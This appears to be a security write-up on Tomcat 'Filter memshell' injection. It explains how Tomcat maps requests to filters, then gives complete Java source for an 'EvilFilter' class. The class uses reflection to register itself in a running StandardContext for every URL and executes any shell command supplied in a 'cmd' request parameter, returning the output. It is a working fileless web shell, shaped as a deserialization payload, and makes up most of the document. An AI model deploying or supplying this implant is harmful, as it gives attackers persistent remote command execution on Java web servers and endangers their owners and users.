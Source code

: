 # Filter memshell

## Analysis

The process of the `Tomcat` calling a specific `Filter` according to the request URL:

* Traverse the `filterMaps`, a mapping between the request URL and the `FilterMap` object, and get the corresponding `FilterMap` object. The `FilterMap` class is a mapping between the request URL and the `filterName`.

* Lookup the corresponding `filterConfig`, a `ApplicationFilterConfig` object, in the `filterConfigs` by the `filterName`. Then add it to the `FilterChain`.

* Traverse the `filterConfig` in the `FilterChain`, then call the `getFilter()` method to obtain the corresponding `Filter` and execute the `doFilter()` method.

* The `Filter` is encapsulated as the `FilterDef` object, and the `FilterDef` object is added to `FilterDefs`, when the `Filter` is added dynamically.

To add a `Filter` dynamically, we should:

* Create a `FilterDef` object to encapsulate the `Filter`, then call the `addFilterDef()` method of the `StandardContext` class to add it to `FilterDefs`.

* Create a new `FilterMap` object, and call the `addFilterMapBefore()` method of the `StandardContext` class to add it to `filterMaps`.

* Create a new `ApplicationFilterConfig` object, and call the `put()` of the `filterConfigs`.

Moreover, we must achieve the `doFilter()` method and write malicious code in this method.

## Code

    public class EvilFilter extends AbstractTranslet implements Filter {
        static {
            final String name = "Ya0h4cker";
            WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
            try {
                Field field = webappClassLoaderBase.getClass().getSuperclass().getDeclaredField("resources");
                field.setAccessible(true);
                WebResourceRoot resources = (WebResourceRoot) field.get(webappClassLoaderBase);
                StandardContext standardContext = (StandardContext) resources.getContext();

                Field configs = standardContext.getClass().getDeclaredField("filterConfigs");
                configs.setAccessible(true);
                Map filterConfigs = (Map) configs.get(standardContext);

                if (filterConfigs.get(name) == null) {
                    EvilFilter filter = new EvilFilter();

                    FilterDef filterDef = new FilterDef();
                    filterDef.setFilter(filter);
                    filterDef.setFilterName(name);
                    filterDef.setFilterClass(filter.getClass().getName());
                    standardContext.addFilterDef(filterDef);

                    FilterMap filterMap = new FilterMap();
                    filterMap.addURLPattern("/*");
                    filterMap.setFilterName(name);
                    filterMap.setDispatcher(DispatcherType.REQUEST.name());
                    standardContext.addFilterMapBefore(filterMap);

                    Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
                    constructor.setAccessible(true);
                    ApplicationFilterConfig applicationFilterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);
                    filterConfigs.put(name, applicationFilterConfig);

                    System.out.println("Inject success");
                }
            } catch (NoSuchFieldException | IllegalAccessException | InvocationTargetException | NoSuchMethodException | InstantiationException e) {
                e.printStackTrace();
            }
        }

        @Override
        public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
        }

        @Override
        public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
        }

        @Override
        public void init(FilterConfig filterConfig) throws ServletException {
        }

        @Override
        public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
            System.out.println("Evil dofilter");
            if (servletRequest.getParameter("cmd") != null) {
                String cmd = servletRequest.getParameter("cmd");
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner(in).useDelimiter("\\a");
                String output = s.hasNext() ? s.next() : "";
                PrintWriter out = servletResponse.getWriter();
                out.println(output);
                out.flush();
                out.close();
                return;
            }
            filterChain.doFilter(servletRequest, servletResponse);
        }

        @Override
        public void destroy() {
        }
    }
